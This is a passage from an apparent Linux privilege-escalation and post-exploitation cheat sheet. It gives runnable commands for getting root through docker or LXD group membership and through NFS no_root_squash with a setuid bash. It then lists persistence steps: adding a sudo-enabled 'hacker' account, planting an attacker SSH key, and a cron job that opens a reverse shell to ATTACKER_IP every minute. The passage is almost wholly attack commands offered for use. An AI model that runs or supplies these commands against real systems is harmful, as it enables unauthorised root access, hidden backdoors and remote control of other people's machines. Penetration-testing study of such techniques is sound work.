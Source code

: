 ### Docker Group
```bash
# If user is in docker group
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

### LXC/LXD Group
```bash
# If user is in lxc/lxd group
lxc init ubuntu:18.04 privesc -c security.privileged=true
lxc config device add privesc mydevice disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/bash
```

### NFS Shares
```bash
# Check for NFS exports
cat /etc/exports
showmount -e localhost

# Mount with no_root_squash
# On attacking machine:
sudo mount -t nfs TARGET:/path/to/share /mnt
cp /bin/bash /mnt/
sudo chown root:root /mnt/bash
sudo chmod +s /mnt/bash

# On target:
/path/to/share/bash -p
```

## Post-Exploitation

### Persistence
```bash
# Add user
useradd -m -s /bin/bash hacker
echo 'hacker:password' | chpasswd
usermod -aG sudo hacker

# SSH keys
mkdir -p ~/.ssh
echo 'YOUR_PUBLIC_KEY' >> ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys

# Cron job
echo '* * * * * /bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"' | crontab -
```
